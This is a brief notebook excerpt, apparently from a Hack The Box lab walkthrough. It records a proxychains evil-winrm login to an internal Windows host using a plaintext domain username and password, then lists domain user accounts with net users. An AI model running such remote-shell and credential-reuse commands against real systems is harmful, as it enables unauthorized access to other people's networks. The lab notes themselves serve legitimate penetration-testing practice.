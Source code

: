 
### Evil-Winrm
#evil-winrm 
```bash
proxychains evil-winrm -i 172.16.0.2 -u alchemy.htb\calde_ldap -p 'CsAdlLDAPMoDeBrnd12!'
```
#### net users
#net-users
- got new users
-  utilized new user list to update [[Loot-User List-Flags]]
```bash
*Evil-WinRM* PS C:\Users\calde_ldap\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            aepike                   calde
calde_ldap               Guest                    james
krbtgt                   thanos
The command completed with one or more errors.
```
